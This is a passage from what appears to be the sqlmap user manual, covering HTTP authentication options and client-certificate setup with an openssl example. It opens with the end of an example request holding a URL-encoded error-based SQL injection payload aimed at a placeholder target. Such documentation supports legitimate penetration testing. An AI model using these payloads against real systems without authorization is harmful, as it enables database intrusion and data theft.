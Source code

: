`20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2\`\
`0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20\`\
`%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%\`\
`20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2\`\
`0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20\`\
`%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%\`\
`20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2\`\
`0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20\`\
`%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%\`\
`20%20%20%20%20%20%20%20%20%20%20%205473%29%20THEN%201%20ELSE%200%20END%29%29%2C\`\
`0x3a6c666d3a%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20INFORMATION_SCHEMA.CHARA\`\
`CTER_SETS%20GROUP%20BY%20x%29a%`\
`29 HTTP/1.1`\
`Host: www.target.com`\
`Accept-encoding: gzip,deflate`\
`Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8`\
`User-agent: Firefox 1.0`\
`Connection: close`\
`[...]`\


#### HTTP protocol authentication

Options: `--auth-type` and `--auth-cred`\
These options can be used to specify which HTTP protocol authentication back-end web server implements and the valid credentials to be used to perform all HTTP requests to the target application.\
The three supported HTTP protocol authentication mechanisms are:\
◇ `Basic`\
◇ `Digest`\
◇ `NTLM`

While the credentials' syntax is `username:password`.\
Example of valid syntax:\
`$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/basic/get_int.php?id\`\
`=1" --auth-type Basic --auth-cred "testuser:testpass"`\


#### HTTP protocol private key authentication

Option: `--auth-file`\
This option should be used in cases when the web server requires proper client-side certificate and a private key for authentication. Supplied value should be a PEM formatted `key_file` that contains your certificate and a private key.\
Example of generation of a `key_file.txt` that is compatible with `--auth-file`:\
`$ openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout auth_file.key -out auth_file.pem &&\`\
`cat auth_file.key auth_file.pem > auth_file.txt && cat auth_file.txt`\
`Generating a 2048 bit RSA private key`\
`.........+++`\
`...........+++`\
`writing new private key to 'auth_file.key'`\
`-----`\
`You are about to be asked to enter information that will be incorporated`\
`into your certificate request.`\
`What you are about to enter is what is called a Distinguished Name or a DN.`\
`There are quite a few fields but you can leave some blank`\
`For some fields there will be a default value,`\
`If you enter '.', the field will be left blank.`\
`-----`\
`Country Name (2 letter code) [AU]:`\
`State or Province Name (full name) [Some-State]:`\
`Locality Name (eg, city) []:`\
`Organization Name (eg, company) [Internet Widgits Pty Ltd]:`\
`Organizational Unit Name (eg, section) []:`\
`Common Name (e.g. server FQDN or YOUR name) []:`\
`Email Address []:`\